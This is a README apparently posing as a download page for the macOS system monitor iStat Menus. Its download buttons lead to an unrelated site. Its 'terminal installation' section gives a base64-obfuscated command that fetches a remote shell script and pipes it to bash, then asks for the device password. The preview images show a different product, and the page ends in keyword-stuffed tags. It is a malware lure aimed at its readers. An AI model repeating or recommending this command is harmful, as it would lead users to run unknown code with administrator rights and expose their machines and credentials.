 # 📈 iStat Menus — Advanced System Monitoring for macOS

**iStat Menus** is a comprehensive and elegant system monitor for macOS that lets you track every detail of your Mac’s performance directly from the menu bar. Whether you're watching CPU usage, fan speeds, temperatures, or network activity — iStat Menus provides real-time, customizable insights at a glance.

---

## ✅ Download iStat Menus for macOS  
[![Download iStat Menus](https://img.shields.io/badge/Download-iStat_Menus-blue)](https://shuziktobehuman.github.io/huja/istat)

---

## 📥 How to Use

Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

Installation via a command in the terminal:

1. Copy the installation command below.
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```



## 📦 What is iStat Menus?

iStat Menus is a menu bar system monitoring tool built for macOS users who want to keep an eye on system performance. With its modular and highly customizable design, iStat Menus delivers deep insight into your Mac's inner workings — including CPU, GPU, RAM, network, sensors, and disk activity — all accessible with a click.

---

## ✨ Features

- 🧠 Real-time CPU, GPU, and RAM usage monitoring  
- 💽 View disk activity, read/write speeds, and storage usage  
- 🌐 Monitor network throughput and IP addresses  
- 🌡️ Temperature sensors, fan speeds, battery stats, and power usage  
- 📆 Integrated calendar and customizable time/date display  
- 🎨 Beautiful themes and modular layout for a clean look  
- ⚙️ Alerts and notifications based on system thresholds  
- 🧲 Support for Apple Silicon (M1/M2/M3) and Intel Macs  
- 🖥 Optimized for macOS Sonoma and Ventura  
- 🧩 Customizable dropdowns and visual graphs per module  

---

## 💡 Why Use iStat Menus?

- 🔍 Stay informed about system performance and health  
- 🚨 Detect thermal issues, memory pressure, or hardware load early  
- 🖼 Customize your menu bar to match your workflow  
- ⚙️ Set up alerts for overheating, battery changes, or high CPU use  
- 💻 Perfect for developers, IT professionals, and power users  

---

[![Download iStat Menus](https://img.shields.io/badge/Download-iStat_Menus-blue)](https://shuziktobehuman.github.io/huja/istat)

---


## 🖼 Preview

![iStat Menus Screenshot 1](https://www.paragon-software.com/wp-content/uploads/2019/10/img-ntfsapp-light-2x.png)  
![iStat Menus Screenshot 2](https://toolbox.easeus.com/images/toolbox/ntfs-mac/paragon-ntfs-for-mac-interface.png)

---

## 📌 Tags

istat menus, istat menus mac, istat mac download, system monitor mac,  
mac performance monitor, istat menu bar, istat macbook, cpu monitor mac,  
macos resource monitor, mac status bar monitor, istat menus download mac,  
mac menu bar system monitor, istat for macos, mac temperature monitor,  
istat menus m1, istat menus apple silicon, istat menus macos sonoma  

